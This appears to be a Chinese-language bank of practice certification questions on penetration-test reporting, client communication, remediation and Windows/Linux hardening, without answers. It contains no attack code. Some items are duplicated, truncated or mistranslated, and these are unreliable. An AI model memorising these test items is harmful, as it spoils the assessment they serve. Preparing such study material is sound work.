* **5.3 在给定场景下，为发现的漏洞推荐缓解策略。**
    * 解决方案
        * 人员
        * 流程
        * 技术
    * 发现
        * 本地管理员
        * 弱密码
        * 明文密码
        * 实现多因素认证
        * SQL 注入
        * 不必要的开放服务
    * 修复
        * LAPS 随机凭据
        * 密码要求
        * 加密密码
        * 实现多因素认证
        * 用户输入/参数查询
        * 系统加固

* **5.4 解释测试过程中沟通的重要性。**
    * 通信路径
    * 通信触发器
        * 关键发现
        * 阶段
        * 先前入侵指标
    * 沟通的原因
        * 情境感知
        * 降级
        * 冲突消除
    * 目标重排序

1. 你刚刚为客户完成了渗透测试。在测试期间，你使用了各种工具来收集数据并执行利用。现在你需要将这些工具生成的所有数据聚合到一个一致、关联且可读的格式中。这种过程称为什么？

1. 发现的证明
2. 数据归一化
3. 降级
4. 冲突消除

2. 你刚刚为客户完成了渗透测试，现在正在编写发现的报告。你需要确保读者理解你在测试时遵循了 PCI DSS 标准。你应该在报告的哪个部分包含这些信息？

1. 发现
2. 修复
3. 指标与衡量
4. 方法论

3. 在渗透测试期间，测试员与客户之间沟通的目标之一是确保双方都清晰地理解当前的安全状态。以下术语最能描述这种共享理解？

1. 情境感知
2. 降级
3. 冲突消除
4. 目标重排序

4. 在渗透测试期间，客户组织的网络管理员发现了一场针对公司 Web 服务器的分布式拒绝服务 (DDoS) 攻击。管理员联系渗透测试员以验证该攻击是渗透测试的一部分，而非来自真实的攻击者。这种过程称为什么？

1. 数据归一化
2. 情境感知
3. 冲突消除


## 4. 目标优先级重新调整

### 5. 在渗透测试期间，客户组织开始收到客户的投诉，称该组织的 Web 服务器响应非常缓慢，有时甚至崩溃。网络管理员发现正在进行一项针对公司 Web 服务器的分布式拒绝服务（DDoS）攻击。销售额正在流，因此管理员拨打了渗透测试人员的电话要求停止攻击。这种通信路径称为什么？

1. 态势感知 (Situational awareness)
2. 降级 (De-escalation)
3. 冲突消除 (De-confliction)
4. 目标优先级重新调整 (Goal reprioritization)

### 6. 你的组织正在为客户进行黑盒渗透测试。你的渗透团队有五个成员。在测试期间，你通过电子邮件和短信与团队的其他成员持续通信，以确保每个人都知道其他人在做什么。这个过程称为什么？

1. 态势感知 (Situational awareness)
2. 指标与衡量 (Metrics and measures)
3. 冲突消除 (De-confliction)
4. 数据归一化 (Normalization of data)

### 7. 你的组织正在为客户进行黑盒渗透测试。你的渗透团队有五个成员。在测试期间，你通过电子邮件和短信与团队的其他成员持续通信，以协调活动的时间，包括侦察、枚举、漏洞利用等。这个过程称为什么？

1. 态势感知 (Situational awareness)
2. 降级 (De-escalation)
3. 冲突消除 (De-confliction)
4. 数据归一化 (Normalization of data)

### 8. 在渗透测试期间，客户组织开始收到远程员工的投诉，称该组织的 VPN 已离线。网络管理员发现正在进行一项局域网拒绝服务（LAND）攻击，其目标是公司网络边缘的 VPN 服务器。远程员工无法工作，因此管理员拨打了渗透测试人员的电话要求他们撤回攻击。这种通信路径称为什么？

1. 态势感知 (Situational awareness)
2. 降级 (De-escalation)
3. 冲突消除 (De-confliction)
4. 目标优先级重新调整 (Goal reprioritization)

### 9. 在渗透测试期间，客户组织的网络管理员发现正在进行一项针对公司边界路由器的水滴攻击（teardrop attack）。管理员拨打了渗透测试人员的电话，以确认攻击是否是渗透测试的一部分。这种通信路径称为什么？

1. 态势感知 (Situational awareness)
2. 指标与衡量 (Metrics and measures)
3. 冲突消除 (De-confliction)
4. 数据归一化 (Normalization of data)

### 10. 你的组织正在为客户进行黑盒渗透测试。你的团队有三个测试人员。在过程开始时，你们开了会议计划如何进行测试、某些活动何时发生，以及哪些团队成员负责执行特定任务。这个过程称为什么？

1. 冲突消除 (De-confliction)
2. 降级 (De-escalation)
3. 态势感知 (Situational awareness)
4. 目标优先级重新调整 (Goal reprioritization)

### 11. 在渗透测试期间，有一人试图搭便车（piggyback）进入客户组织的设施。闯入者声称是渗透测试人员并坚持释放。在提起刑事指控之前，客户 IT 部门的一员拨打了渗透测试人员的电话，以确定闯入者是否真的是渗透测试团队的成员。这种通信路径称为什么？

1. 目标优先级重新调整 (Goal reprioritization)
2. 冲突消除 (De-confliction)
3. 态势感知 (Situational awareness)
4. 降级 (De-escalation)

### 12. 在渗透测试期间，有一人试图搭便车进入客户组织的设施。闯入者声称是渗透测试人员并坚持释放。在提起刑事指控之前，客户 IT 部门的一员拨打了渗透测试人员的电话，以确定闯入者是否真的是渗透测试团队的成员。这种通信路径称为什么？

在渗透测试期间，有一人试图搭便车进入客户组织的设施。闯入者声称是渗透测试人员并坚持释放。在提起刑事指控之前，客户 IT 部门的一员拨打了渗透测试人员的电话，以确定闯入者是否真的是渗透测试团队的成员。这种通信路径称为什么？

1. 态势感知 (Situational awareness)
2. 目标优先级重新调整 (Goal reprioritization)
3. 冲突消除 (De-confliction)
4. 降级 (De-escalation)

在渗透测试期间，有一人试图搭便车进入客户组织的设施。闯入者声称是渗透测试人员并坚持释放。在提起刑事指控之前，客户 IT 部门的一员拨打了渗透测试人员的电话，以确定闯入者是否真的是渗透测试团队的成员。这种通信路径称为什么？

1. 态势感知 (Situational awareness)
2. 目标优先级重新调整 (Goal reprioritization)
3. 冲突消除 (De-confliction)
4. 降级 (De-escalation)

### 13. 下列哪项最能描述渗透测试期间的*信任代理（*trusted agent*）？

1. 秘密渗透目标的测试人员
2. 目标组织内部与渗透测试人员有直接联系的个人
3. 渗透团队中的一名成员
4. 已经接受过测试简报的当地执法部门代表

### 14. 你的组织正在为客户进行黑盒渗透测试。测试的侦察阶段已经完成，你准备移动到另一个阶段。在此之前，你与客户通信并告知他们测试正在转换。使用了哪种通信触发因素？

1. 阶段 (Stages)
2. 关键发现 (Critical findings)
3. 通信路径 (Communication path)
4. 入侵指标 (Indicators of compromise)

### 15. 你正在为客户进行灰盒渗透测试。在测试期间，你发现许多用户的桌面系统没有得到适当补丁，仍然受到常见类型勒索软件的威胁。你没有等候测试结束，而是立即与客户通信，警告他们系统存在漏洞。在这种场景中使用了哪种通信触发因素？

1. 风险评分 (Risk rating)
2. 关键发现 (Critical findings)
3. 发现与修复 (Findings and remediation)
4. 入侵指标 (Indicators of compromise)

### 16. 你正在为客户进行白盒渗透测试。在测试期间，你在客户的一个 Active Directory 域控制器上发现了一个隐藏的管理员账户。你检查了该域控制器的日志，发现该后门账户每天都被积极使用。你没有等到测试结束，而是立即与客户通信，警告他们他们的服务器已被入侵。在这种场景中使用了哪种通信触发因素？

1. 阶段 (Stages)
2. 关键发现 (Critical findings)
3. 通信路径 (Communication path)
4. 入侵指标 (Indicators of compromise)

### 17. 你正在为客户进行黑盒渗透测试。测试的枚举阶段已经完成，你准备开始对漏洞系统进行利用。在此之前，你与客户通信并告知他们测试正在转换。在这种场景中使用了哪种通信触发因素？

1. 风险评分 (Risk rating)
2. 关键发现 (Critical findings)
3. 发现与修复 (Findings and remediation)
4. 阶段 (Stages)

### 18. 你正在为客户进行白盒渗透测试。在测试期间，你注意到与分布式拒绝服务（DDoS）攻击一致的传出网络流量。你怀疑内部系统已被恶意软件感染，为攻击创建了放大器网络。你没有等到测试结束，而是立即与客户通信向他们发出了警告。在这种场景中使用了哪种通信触发因素？

1. 阶段 (Stages)
2. 先前入侵指标 (Indicators of prior compromise)
3. 发现与修复 (Findings and remediation)
4. 关键发现 (Critical findings)


### 19. 你正在为一个客户进行灰盒渗透测试。在测试期间，你发现帮助台技术人员正在互联网上使用经过验证但未加密的 FTP 连接将文件传输到位于远程分支机构站点的计算机。因此，他们的凭据可能会暴露在公共网络上。尽管这对你来说是一个非常有吸引力的利用目标，但你意识到了这种做法相关的直接风险。你没有等到测试结束，而是立即与客户联系，警告他们特权凭据可能在互联网上暴露。在这种场景中使用了哪种通信触发器？

1. 阶段 (Stages)
2. 关键发现 (Critical findings)
3. 通信路径 (Communication path)
4. 先前受入侵指标 (Indicators of prior compromise)

### 20. 你正在为一个客户进行黑盒渗透测试。测试已经完成，你准备开始清理工作。在此之前，你与客户联系，告知他们测试已完成，并注意将进行清理活动。在这种场景中使用了哪种通信触发器？

1. 风险等级 (Risk rating)
2. 关键发现 (Critical findings)
3. 阶段 (Stages)
4. 先前受入侵指标 (Indicators of prior compromise)

### 21. 你正在为一家小型金融机构进行黑盒渗透测试。通过使用社交工程（Pretexting），你伪装成复印机维修人员进入目标设施。当你走过建筑时，你注意到几乎所有员工都将他们的（过于复杂的）密码写在便利签上，并贴在电脑显示器和键盘上。有些甚至显而易见，敏锐的客户都能看到。这对你来说是一个非常有吸引力的利用目标；然而，你意识到了这种做法相关的直接风险。你没有等到测试结束，而是立即与客户联系，警告他们凭据清晰可见。在这种场景中使用了哪种通信触发器？

1. 先前受入侵指标 (Indicators of prior compromise)
2. 关键发现 (Critical findings)
3. 通信路径 (Communication path)
4. 阶段 (Stages)

### 22. 你正在为一个客户进行白盒渗透测试。在测试期间，你注意到所有终端用户工作站仅配置了默认的 Windows 杀病毒扫描程序。你进一步注意到，许多终端用户使用一个应用程序完成日常工作，该程序是一个通常用于创建僵尸网络的已知木马程序。你没有等到测试结束，而是立即与客户联系并警告他们。在这种场景中使用了哪种通信触发器？

1. 先前受入侵指标 (Indicators of prior compromise)
2. 关键发现 (Critical findings)
3. 通信路径 (Communication path)
4. 阶段 (Stages)

### 23. 你正在为一个客户进行 PCI DSS 渗透测试。在测试过程中，一种危险的勒索软件漏洞开始在全球的网络之间传播。客户要求你停止 PCI DSS 渗透测试，转而测试他们的网络是否容易受到这种新型恶意软件的影响。哪个术语最能描述这种场景中发生的情况？

1. 态势感知 (Situational awareness)
2. 目标重新排序 (Goal reprioritization)
3. 先前受入侵指标 (Indicators of prior compromise)
4. 发现证明 (Attestation of findings)

### 24. 你正在为一个客户进行灰盒渗透测试。在测试过程中，你注意到他们的无线网络使用弱加密，且预共享密钥（`00000001`）很容易通过暴力破解破解。此外，你注意到客户在整个设施中部署了全向访问点。你怀疑无线信号延伸到了建筑外的远处。你联系了客户并建议修改测试，增加从黑盒角度对 Wi-Fi 网络进行测试。哪个术语最能描述这种场景中发生的情况？

1. 目标重新排序 (Goal reprioritization)
2. 发现证明 (Attestation of findings)
3. 先前受入侵指标 (Indicators of prior compromise)
4. 态势感知 (Situational awareness)

### 25. 下列术语中哪指的是收集渗透测试中各种工具产生的数据，并以一致的方式格式化数据以便易于阅读的过程？

1. 发现证明 (Attestation of findings)
2. 数据归一化 (Normalization of data)
3. 修复 (Remediation)
4. 报告处置 (Disposition of reports)

### 26. 你在渗透测试后生成一份发现的书面报告。在测试期间，你遵循了 `NIST 800-115` 标准。你应该将此信息包含在报告的哪个部分？

1. 执行摘要 (Executive summary)
2. 方法论 (Methodology)
3. 发现与修复 (Findings and remediation)
4. 指标与衡量 (Metrics and measures)

### 27. 你在渗透测试后生成一份发现的书面报告。你应该在报告的哪个部分为读者提供测试和结果的高层级概述？

1. 执行摘要 (Executive summary)
2. 方法论 (Methodology)
3. 发现与修复 (Findings and remediation)
4. 指标与衡量 (Metrics and measures)

### 28. 你在渗透测试后生成一份发现的书面报告。你应该在哪个部分报告风险等级？

1. 执行摘要 (Executive summary)
2. 方法论 (Methodology)
3. 发现与修复 (Findings and remediation)
4. 指标与衡量 (Metrics and measures)
5. 结论 (Conclusion)

### 29. 渗透测试发现书面报告的哪部分是打算给非技术读者阅读的？

1. 执行摘要 (Executive summary)
2. 方法论 (Methodology)
3. 发现与修复 (Findings and remediation)
4. 指标与衡量 (Metrics and measures)
5. 结论 (Conclusion)

### 30. 你在渗透测试后生成一份发现的书面报告。在测试期间，你遵循了 `EC-Council` 的认证伦理黑客（`CEH`）认证的规范。你应该将此信息包含在报告的哪个部分？

1. 执行摘要 (Executive summary)
2. 方法论 (Methodology)
3. 发现与修复 (Findings and remediation)
4. 指标与衡量 (Metrics and measures)
5. 结论 (Conclusion)

### 31. 你在渗透测试后生成一份发现的书面报告。在测试期间，你发现网络中许多旧 Windows 工作站没有得到适当补丁，容易受到 `WannaCry` 勒索软件的影响。你应该在报告的哪个部分包含此信息？

1. 执行摘要 (Executive summary)
2. 方法论 (Methodology)
3. 发现与修复 (Findings and remediation)
4. 指标与衡量 (Metrics and measures)
5. 结论 (Conclusion)

### 32. 你在渗透测试后生成一份发现的书面报告。在测试期间，你发现网络中许多旧 Windows 工作站没有得到适当补丁，容易受到 `WannaCry` 勒索软件的影响。为了修复这个问题，客户需要安装微软的 `MS17-010` 关键更新。你应该在报告的哪个部分包含此项建议？

1. 执行摘要 (Executive summary)
2. 方法论 (Methodology)
3. 发现与修复 (Findings and remediation)
4. 指标与衡量 (Metrics and measures)
5. 结论 (Conclusion)

### 33. 你在渗透测试后生成一份发现的书面报告。你将测试中发现的每个漏洞与常见漏洞 way（`CVE`）数据库进行交叉引用，以为其分配 `Low`（低）、`Medium`（中）、`High`（高）或 `Critical`（严重）的定性风险等级。你应该将这些风险等级包含在报告的哪个部分？

1. 执行摘要 (Executive summary)
2. 方法论 (Methodology)
3. 发现与修复 (Findings and remediation)
4. 指标与衡量 (Metrics and measures)
5. 结论 (Conclusion)

### 34. 你在渗透测试后生成一份发现的书面报告。根据测试结果，你创建了一份认为客户应该关注的建议列表。你应该在报告的哪个部分包含你的建议？

1. 执行摘要 (Executive summary)
2. 方法论 (Methodology)
3. 发现与修复 (Findings and remediation)
4. 指标与衡量 (Metrics and measures)
5. 结论 (Conclusion)

### 35. 你在渗透测试后生成一份发现的书面报告。在决定包含哪些信息时，你应该在报告的哪个部分考虑客户的风险偏好？


# 报告结构
1. 执行摘要
2. 方法论
3. 发现与修复
4. 指标与衡量
5. 结论

## Q36
你正在编写一份渗透测试结果的发现书面报告。基于你在测试中发现的大量漏洞，你认为客户应该在未来三个月内进行跟进渗透测试，以验证这些问题已得到修复。你应该在报告的哪个部分包含此建议？

1. 执行摘要
2. 方法论
3. 发现与修复
4. 指标与衡量
5. 结论

## Q37
你刚刚完成为客户编写了一份渗透测试的发现报告。在测试完成后，你的组织需要存储该文档多久？

1. 六个月
2. 一年
3. 五年
4. 取决于客户合同

## Q38
你刚刚完成为客户编写了一份渗透测试的发现报告。以下哪种存储客户书面发现报告的方法适当？

1. 打印纸质副本并将其放在桌上的文件文件夹中。
2. 将其保存到闪存盘中，并存放在桌上的笔筒里。
3. 将其刻录到可重写光盘并存放在桌抽屉里。
4. 将其保存到文件服务器上的加密文件中。

## Q39
你刚刚完成为客户编写了一份渗透测试的发现报告。以下哪种存储客户书面发现报告的方法适当？

1. 打印纸质副本并将其存放在固定在地上的锁定文件柜中。
2. 将其保存到你的 `Google drive` 账号。
3. 将其存在笔记本电脑的文件中。
4. 将其刻录到可重写光盘并放在桌上的 CD 盒中。

## Q40
你刚刚完成为客户编写了一份渗透测试的发现报告。以下哪种存储客户书面发现报告的方法适当？

1. 将报告刻录到光盘并存放在固定在桌子上的锁定保险箱内。
2. 将文件保存到加密闪存盘中。
3. 将文件复制到你的手机。
4. 将报告保存到工作站桌面的文件中。

## Q41
你刚刚完成为客户编写了一份渗透测试的发现报告。以下哪种存储客户书面发现报告的方法适当？

1. 将报告刻录到光盘并存放在桌上的悬挂文件文件夹中。
2. 将文件保存到加密闪存盘并存放在锁物柜中。
3. 将文件复制到你的手机。
4. 将报告保存到你组织的 `FTP` 服务器上。

## Q42
你需要处理几个旧客户的渗透测试报告。这些文件存储存放在锁定保险箱中的移动硬盘上。以下哪种是执行此操作的最佳方法？

1. 从硬盘中删除文件。
2. 使用 `fdisk` 实用程序对硬盘重新分区。
3. 在硬盘上使用磁盘擦除软件（disk wiping software）。
4. 格式化硬盘。

## Q43
你需要处理几个旧客户的渗透测试报告。报告的纸质副本存放在固定在地上的锁定文件柜中。以下哪种是执行此操作的最佳方法？

1. 将报告投入垃圾。
2. 将报告放入回收箱。
3. 将报告倒过来堆放在团队打印机旁用做“草稿纸”使用。
4. 使用横切碎纸机粉碎报告。

## Q44
你需要处理几个旧客户的渗透测试报告。文件存放在锁定柜柜内的闪存盘上。以下哪种是执行此操作的最佳方法？

1. 用锤子砸碎闪盘。
2. 从闪盘中删除文件。
3. 使用 `Disk Management`（磁盘管理）实用程序对闪盘重新分区。
4. 使用 `Windows` 中的 `File Explorer`（文件资源管理器）格式化闪盘。

## Q45
你需要处理几个旧客户的渗透测试报告。文件存放在锁定柜柜内的可重写光盘上。以下哪种是执行此操作的最佳方法？

1. 从光盘中删除文件。
2. 粉碎光盘。
3. 删除文件然后将新文件保存到光盘中。
4. 格式化光盘。

## Q46
你刚刚为一家大量使用居家办公员工的客户结束了渗透测试。这些员工使用 `VPN` 连接。在测试期间，你能够利用社会工程学攻破员工的 `VPN` 连接并访问内部网络。作为缓解策略，你建议客户对所有 `VPN` 连接实施多因素身份验证。这是哪种类型的解决方案？

1. 技术性的
2. 人性的
3. 流程性的
4. 战性的

## Q47
你刚刚为一个客户结束了渗透测试。在测试期间，你能够利用社会工程学技术进入客户设施内部的机房。为了解决这一漏洞，你建议客户要求所有员工每月进行安全意识培训。这是哪种类型的解决方案？

1. 技术性的
2. 人性的
3. 流程性的
4. 战性的

## Q48
你刚刚为一个客户结束了渗透测试。在测试期间，你能够利用与离职员工相关的过期用户账户访问文件服务器。为了解决这一漏洞，你建议客户在员工离开组织时删除用户账户。这是哪种类型的解决方案？

1. 技术性的
2. 人性的
3. 流程性的
4. 策略性的

## Q49
你刚刚为一个客户结束了渗透测试。在测试期间，你发现系统管理员使用未加密的 `Telnet` 会话远程管理服务器。你能够嗅探网络流量并获取管理员凭据。为了解决这一漏洞，你建议客户要求所有 IT 人员通过网络安全考试。这是哪种类型的解决方案？

1. 技术性的
2. 人性的
3. 流程性的
4. 策略性的

## Q50
你刚刚为一个客户结束了渗透测试。在测试期间，你能够使用 `John the Ripper` 暴力破解敏感 `Windows` 文件服务器上的管理员密码。为了解决这一漏洞，你建议客户实施 `Group Policy`（组策略）设置，要求使用复杂密码并在三次登录尝试后锁定系统。这是哪种类型的解决方案？

1. 技术性的
2. 人性的
3. 流程性的
4. 可扩展性的

## Q51
你刚刚为一个客户结束了渗透测试。该客户有超过 2000 名员工，但只有 2 人是网络管理员。在测试期间，你能够通过海量的攻击量迅速击垮他们。为了解决这一漏洞，你建议客户聘用具有安全证书和经验的额外网络管理员。这是哪种类型的解决方案？

1. 技术性的
2. 人性的
3. 流程性的
4. 可扩展性的

## Q52
你刚刚为一个客户结束了渗透测试。在测试期间，你发现该组织的员工大量使用一个共享的 `Google Drive` 账号进行协作。你能够利用社会工程学漏洞获取该共享账号的访问权限并读取敏感文件。为了解决这一漏洞，你建议客户禁止员工这种做法。这是哪种类型的解决方案？

1. 技术性的
2. 人性的
3. 流程性的
4. 可扩展性的


### 53
你刚刚完成了一个对客户的渗透测试。在测试期间，你通过跟随一群员工尾随（tailgating）的方式进入了客户的物理设施。为了解决这一漏洞，你建议客户在设施入口处安装防尾门（man-trap locking door）。这是哪种类型的解决方案？

1. 技术性的
2. 人员
3. 流程
4. 可扩展的

### 54
你刚刚完成了一个对客户的渗透测试。在测试期间，你通过坐在街对对面停车场的车里，使用 `Aircrack-ng` 访问了客户的无线网络。为了解决这一漏洞，你建议客户实施定向性无线网络天线，并调整接入点的功率水平以防止信号泄露。这是哪种类型的解决方案？

1. 技术性的
2. 人员
3. 流程
4. 可扩展的

### 55
你刚刚完成了一个对客户的渗透测试。在测试期间，你成功利用社会工程学说服组织的应付账员向一个虚假银行账户发送了一大笔 `ACH` 付款。为了解决这一漏洞，你建议客户实施职责分工，规定所有付款项必须由两个人签字。

1. 技术性的
2. 人员
3. 流程
4. 可扩展的

### 56
你刚刚完成了一个对客户的渗透测试。在测试期间，你利用钓鱼攻击从几名员工处收集了身份验证凭据。为了解决这一漏洞，你建议客户对所有员工进行强制性的安全意识培训。这是哪种类型的解决方案？

1. 技术性的
2. 人员
3. 流程
4. 可扩展的

### 57
你刚刚完成了一个对客户的渗透测试。在调查结果中，你注意到组织内所有的 `Windows` 桌面系统的本地 `Administrator` 用户账户都分配了相同的密码。为了修复这个问题，你会建议什么？

1. 加密密码。
2. 密码复杂度要求。
3. 实施入侵者锁定。
4. 随机化本地 `Administrator` 凭据。

### 58
你刚刚完成了一个对客户的渗透测试。在调查结果中，你注意到组织内所有的 `Windows` 桌面系统的本地 `Administrator` 用户账户都分配了相同的密码。当你向客户报告这一点时，他们表示他们知晓此，并说明这样做是为了降低管理复杂性。你会建议什么解决方案可以在不增加管理复杂性的情况下修复漏洞？

1. 随机化本地 `Administrator` 凭据。
2. 实施 `LAPS`。
3. 让所有本地 `Windows` 用户成为本地 `Administrators` 组成员。
4. 让所有 `Windows` 域用户成为 `Domain Administrators` 组成员。

### 59
你刚刚完成了一个对客户的渗透测试。在调查结果中，你报告说你破解了几个用户的 `Windows` 账户，因为他们使用了如 `password`、`aaa` 和 `1234` 等密码。你可以建议他们实施以下哪些域组策略设置来防止弱密码复杂度？（选择两项。）

1. 使用可逆加密存储密码。
2. 密码必须满足复杂度要求。
3. 最小密码长度。
4. 证书路径验证设置。
5. 证书服务客户端 – 自动注册。

### 60
以下哪项 `Windows` 组策略设置可以防止用户反复使用同一个密码？

1. 强制密码历史
2. 使用可逆加密存储密码
3. 最小密码长度
4. 密码必须满足复杂度要求

### 61
以下哪项 `Windows` 组策略设置决定了用户在要求更改新密码之前可以保留相同密码多久？

1. 强制密码历史
2. 最小密码长度
3. 最小密码年龄
4. 最大密码年龄

### 62
以下哪项 `Windows` 组策略设置决定了用户在允许更改新密码之前必须保留相同密码多久？

1. 强制密码历史
2. 最小密码长度
3. 最小密码年龄
4. 最大密码年龄

### 63
你刚刚完成了一个对客户的渗透测试。在调查结果中，你报告说用户允许无限期使用相同的密码，这增加了被破解的概率。考虑到客户使用 Linux 桌面和服务器，你应该建议他们使用以下哪些 Linux 命令？

1. `chage`
2. `chmod`
3. `chgroup`
4. `chown`

### 64
你刚刚完成了一个对客户的渗透测试。在调查结果中，你报告针对 Windows 用户账户的暴力破解密码攻击成功了，因为没有机制阻止该攻击。你可以建议客户实施以下哪些 Windows 组策略设置来修复此问题？

1. 强制密码历史
2. 密码必须满足复杂度要求
3. 使用可逆加密存储密码
4. 账户锁定阈值

### 65
以下哪项 Windows 组策略设置决定了如果多次输入错误密码，用户账户将被锁定多久？

1. 最大密码年龄
2. 账户锁定时间
3. 账户锁定阈值
4. 最小密码年龄

### 66
以下哪项 Windows 组策略设置决定了失败尝试后必须经过多长时间，失败计数器才会重置为 0？

1. 账户锁定时间
2. 账户锁定阈值
3. 失败后重置锁定计数器
4. 使用可逆加密存储密码

### 67
你刚刚完成了一个使用大量临时工和承包商客户的渗透测试。在调查结果中，你报告说临时和合同账户在工作完成后经常没有被停用或删除。考虑到客户使用 Linux 桌面和服务器，你应该建议他们使用以下哪些 Linux 命令在一段时间后自动锁定用户账户？

1. `chage`
2. `chmod`
3. `chgroup`
4. `chown`

### 68
以下哪项 `Windows` 组策略设置永远不应该启用？

1. 使用可逆加密存储密码
2. 密码必须满足复杂度要求
3. 最小密码长度
4. 证书路径验证设置
5. 证书服务客户端 – 自动注册

### 69
在渗透测试期间，你发现客户使用一个自开发的 Web 应用程序，该程序将用户密码明文存储在 `MySQL` 数据库中。你应该建议？

1. 购买一个执行类似任务的商业应用程序。
2. 重写应用程序，在将密码保存到数据库之前对其进行加密。
3. 切换到 `PostgreSQL` 数据库。
4. 切换到云服务提供商的托管解决方案。

### 70
你刚刚完成了一个对客户的渗透测试。在调查结果中，你报告说，虽然用户接受了每 45 天更改一次密码的培训，但很少有人真的这样做，因为没有机制来执行这项政策。考虑到客户使用 Linux 桌面和服务器，你应该建议他们使用以下哪些 Linux 命令，以便在用户在 45 天后未更改密码，自动锁定用户账户？


1. `chage`
2. `chmod`
3. `chgroup`
4. `chown`

71. 下列工具中，哪一个可以通过密码哈值恢复原始明文密码？
1. `proxychains`
2. `John the Ripper`
3. `A rainbow table`
4. `TheHarvester`

72. 下列哪项通常用于通过在哈希操作中添加随机位来防止针对哈希密码的预计算攻击？
1. `Salting`
2. `Reversing the hash`
3. `Using OTP`
4. `Implementing multifactor authentication`

73. 下列哪项通常用于通过多次运行哈希函数处理待哈希值来防止针对哈希密码的预计算攻击？
1. `Salting`
2. `Key stretching`
3. `Symmetric encryption`
4. `Asymmetric encryption`

74. 你刚刚为客户完成了一次渗透测试。在发现中，你报告用户需要提供用户名和密码进行身份验证。你建议该组织实施多因素认证。为了实现这一点，他们可以在用户身份验证时要求提供以下哪项内容？
1. `PIN.`
2. `Passphrase.`
3. `Fingerprint scan.`
4. `以上均不是。通过要求用户名和密码已经实施了多因素认证。`

75. 在多因素认证方面，下列哪项是“你所知道的”（something you know）的示例？
1. `PIN`
2. `One-time password (OTP)`
3. `Biometric scan`
4. `RSA token`

76. 在多因素认证方面，下列哪项是“你所特征”（something you are）的示例？
1. `Password`
2. `Challenge-response questions`
3. `Retina scan`
4. `Hardwire connection to the organization’s internal LAN`

77. 在多因素认证方面，下列哪项是“你所在的位置”（somewhere you are）的示例？
1. `Security token generator`
2. `Passphrase`
3. `Hardwire connection to the organization’s internal LAN`
4. `Voiceprint`

78. 在多因素认证方面，下列哪项是“你所在的位置”（somewhere you are）的示例？
1. `RFID proximity reader`
2. `USB token generator`
3. `Disconnected token generator`
4. `Password`

79. 下列哪项是多因素认证的示例？
1. `Username + PIN`
2. `RFID proximity reader + hardware connection to the LAN`
3. `Biometric scan + PIN`
4. `Password + challenge/response question`

80. 下列哪项是多因素认证的示例？
1. `Username + password`
2. `password + security token generator`
3. `USB token generator + disconnected token generator`
4. `Password + PIN`

81. 下列哪项是双因素认证（2FA）的示例？
1. `Username + password`
2. `Username + PIN`
3. `Username + PIN + facial recognition scan`
4. `PIN + fingerprint scan + security token`

82. 下列哪项是三因素认证（3FA）的示例？
1. `Username + password + security token`
2. `Username + PIN + fingerprint scan + one-time password (OTP)`
3. `Username + PIN + facial recognition scan`
4. `Password + PIN + security token`

83. 你刚刚为客户完成了一次渗透测试。在发现中，你报告一个组织内部开发并用于管理订单的 Web 应用程序容易受到 SQL 注入攻击。你应该建议客户采取什么措施来修复？
1. `重写代码以对用户输入进行清理。`
2. `在网络上传输之前对所有数据进行哈希。`
3. `对数据库中的所有静态数据进行加密。`
4. `用具有相似功能的商业应用程序替换该应用程序。`

84. 你刚刚为客户完成了一次渗透测试。你报告一个组织内部开发并用于管理订单的 Web 应用程序容易受到 SQL 注入攻击。你应该建议客户采取什么措施来修复？
1. `转义数据。`
2. `为网络通信实施 SSL。`
3. `身份验证用户时要求 2FA。`
4. `对哈希加盐。`

85. 哪种防御 SQL 注入攻击的方法涉及使用带有绑定变量的预编译 SQL 语句？
1. `Sanitizing user input`
2. `Escaping data`
3. `Parameterizing queries`
4. `Key stretching`

86. 你刚刚为客户完成了一次渗透测试。在发现中，你报告数据中心的一台 Linux Web 服务器运行着 Apache 服务器、MySQL 数据库、DNS、CUPS、DHCP、IMAP 和 POP3 服务。你应该建议客户采取什么措施来解决这种情况？
1. `从服务器上卸载所有不必要的服务。`
2. `在服务器主机防火墙中关闭与必要服务相关的端口。`
3. `卸载 DNS 和 DHCP 服务。`
4. `卸载与电子邮件相关的服务。`

87. 一台 Windows 服务器作为组织网络的 Active Directory 域控制器运行。为了履行该角色不需要哪些服务？（选择两项）
1. `Group Policy Management`
2. `Hyper-V`
3. `Role Administration Tools`
4. `Active Directory Federation Services`

88. 下列哪些是用于加固 Windows 系统上用户账户的常用方法？（选择两项）
1. `使用组策略配置账户锁定。`
2. `启用匿名 SID/名称翻译。`
3. `启用内置 Guest 用户账户。`
4. `启用 SAM 账户和共享的匿名枚举。`
5. `删除或禁用所有未使用的用户账户。`

89. 下列哪些是用于加固 Windows 系统上用户账户的常用方法？（选择两项）
1. `要求用户使用在线 Microsoft 用户账户身份验证。`
2. `使用组策略强制密码复杂性要求。`
3. `允许“所有人”权限应用于匿名用户。`
4. `使用组策略强制密码有效期要求。`
5. `允许标准用户安装更新`

90. 下列哪种方法通常用于加固 Windows 系统上的网络通信？
1. `在 TCP/IP 上启用 NetBIOS。`
2. `允许匿名访问共享文件夹。`
3. `存储 LAN Manager 哈希值。`
4. `将 LAN Manager 身份验证级别设置为允许 LM 和 NTLM。`
5. `将网络访问限制为已身份验证的用户。`

91. 下列哪种方法通常用于加固 Windows 系统上的网络通信？
1. `关闭 Windows 防墙中的所有端口，然后开放安装服务所需的端口。`
2. `开放 Windows 防火墙中的所有端口，然后逐个关闭安装服务所需的端口。`
3. `启用 LMShosts 查找。`
4. `仅在公共网络配置文件上启用 Windows 防火墙。`

92. 下列哪些方法用于加固 Windows 系统？（选择两项）
1. `安装额外的系统内存并禁用分页文件。`
2. `授予管理员用户“作为操作系统的一部分”权限。`
3. `禁用不需要的服务。`
4. `允许匿名访问注册表。`
5. `禁用补丁可用性通知。`

93. 下列哪种方法通常用于加固 Windows 系统？
1. `禁用交互式登录的 Ctrl+Alt+Del。`
2. `安装所有 Windows 组件。`
3. `如果启用了 BitLocker，则禁用它。`
4. `禁用自动运行。`

94. 下列哪种方法通常用于加固 Linux 服务器系统？
1. `启用并配置 iptables。`


2. 在 `inittab` 中启用 `Ctrl+Alt+Del`。
3. 所有用户 `/boot` 目录的读写权限。
4. 配置 IP 协议以响应 `ICMP` 请求。

### 95. 下列方法常用于加固基于 Linux 的服务器系统？

1. 启用 `Telnet` 服务。
2. 启用安全壳 (`SSH`) 服务。
3. 配置 IP 协议以响应网络广播。
4. 启用带有空密码的用户账户。

### 96. 你刚刚为一个客户完成了一次渗透测试。在你的发现中，你报告说一个 Linux 数据库服务器存在大量不必要的开放服务，这增加了其攻击面。在最终报告中，你建议客户分析系统并移除任何对其角色功能不需要的应用程序或服务。你应该建议他们使用哪种工具来检查服务器上的监听网络端口？

1. `netstat`
2. `yum`
3. `chage`
